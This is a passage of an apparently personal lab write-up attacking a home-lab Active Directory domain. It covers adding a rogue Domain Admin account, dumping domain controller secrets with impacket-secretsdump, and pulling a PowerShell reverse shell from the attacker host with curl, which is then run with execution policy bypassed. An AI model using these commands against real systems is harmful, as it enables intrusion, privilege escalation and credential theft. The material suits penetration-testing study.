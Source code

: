     C:\Windows\system32>net user /add hawkeye Password1@ /domain
    C:\Windows\system32>net group "Domain Admins" hawkeye /ADD /DOMAIN

#### 3.Dumping SAM with new account using secretsdump **AGAINST THE DOMAIN CONTROLLER**
Now that we have a new rouge account with admin right created, we can use it to dump secrets - impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138  

![image](https://github.com/user-attachments/assets/73b12f15-1d2b-4121-a8d4-795cd32ca9b8)  

Mission success.

---

### 🗡️🗡️ MANUAL MODE (UPDATED)  
Managed to work msfconsole with a slightly different exploit (windows/smb/psexec_psh) and same payload of windows/x64/meterpreter/reverse_tcp. Also increased virtual machine memory to 4GB.

#### 1.Gaining access
Since attaining a reverse shell back to our attacker machine via metasploit to conduct an 'incognito' attack is not working, we will attempt to manually exploit fcastles user login with impacket-smbexec and fetch a custom PowerShell Rev Shell.  

    impacket-smbexec MARVEL/fcastle:Password1@192.168.64.139

    hosted custom PS reverse shell on attacker machine and launched a directory server,
    home/kali/tempdeletelater# python -m SimpleHTTPServer

    Run curl in semi-interactive smbexec shell
    curl -o revshell.ps1 http://192.168.64.129:8000/revshell1.ps1

![image](https://github.com/user-attachments/assets/52a5aa14-9941-4c14-a3a7-7be742573798)
![image](https://github.com/user-attachments/assets/ce8c240c-98e5-4522-be1c-f64a2f21c9f5)

    our revshell has succesfully made it over under revshell.ps1

    Now in a separate terminal, we start NetCat and execute the .PS1 file in the semi-interactive instance.
    C:\Windows\system32>powershell -ExecutionPolicy Bypass -File .\revshell.ps1 192.168.64.129 4444  
    
![image](https://github.com/user-attachments/assets/31cc46ba-6c30-4a1e-9643-3b188f03836c)  

Gaining semi-reverse shell connection with custom .ps1 script.  

![image](https://github.com/user-attachments/assets/71eba421-2780-496f-be24-c27169cfea24)  

'net user' to check the user accounts on the machine  
'whoami /groups' to check what groups the current user belongs to  

![image](https://github.com/user-attachments/assets/688c2d87-ba99-4cec-bea4-05915b4d8cf4)  

#### 2. Gaining Fully interactive reverse shell into Powershell using 'PowerCat'.  
